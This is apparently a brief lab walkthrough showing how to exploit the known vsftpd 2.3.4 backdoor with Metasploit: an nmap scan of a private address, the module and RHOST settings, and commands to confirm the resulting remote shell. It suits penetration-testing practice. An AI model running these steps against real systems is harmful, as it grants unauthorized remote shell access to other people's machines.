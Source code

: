 # 🐚 FTP Exploit – vsftpd 2.3.4

## 🎯 Objective
Exploit a known backdoor vulnerability in vsftpd 2.3.4 to gain a remote shell.

## 🔧 Tools Used
- Metasploit Framework
- Nmap (optional pre-scan)

## 🪜 Steps
1. Scan with Nmap:
    ```
    nmap -sV -p 21 172.21.175.100
    ```

2. Launch Metasploit:
    ```
    msfconsole
    search vsftpd
    use exploit/unix/ftp/vsftpd_234_backdoor
    set RHOST 172.21.175.100
    run
    ```

3. Verify shell:
    ```
    whoami
    uname -a
    ```

## 🧠 Notes
- Sometimes requires restarting the target or switching payloads.
- May need to set `PAYLOAD cmd/unix/interact`.

---
